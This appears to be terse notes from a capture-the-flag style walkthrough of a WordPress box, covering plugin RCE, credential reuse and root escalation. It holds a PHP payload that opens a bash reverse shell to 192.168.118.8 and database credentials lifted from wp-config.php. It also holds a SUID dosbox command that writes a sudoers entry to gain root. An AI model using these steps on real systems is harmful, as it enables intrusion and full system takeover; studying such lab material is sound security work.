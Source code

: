 # wpscan -> plugin -> RCE

### Payload by PHP passthru
```python
payload = '<?php passthru("bash -i >& /dev/tcp/192.168.118.8/80 0>&1"); ?>'
```

Most important part. Because the exploit won't work properly as a webshell or others.

### Lateral movement
`wp-config.php` reused creds for ssh

```php
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

### Root
SUID [/usr/bin/dosbox](https://gtfobins.github.io/gtfobins/dosbox/#suid)

```bash
/usr/bin/dosbox -c 'mount c /' -c "echo commander ALL=(ALL) ALL >c:$LFILE" -c exit
```

* https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/

VNC 5901 ssh local port forward is optional.
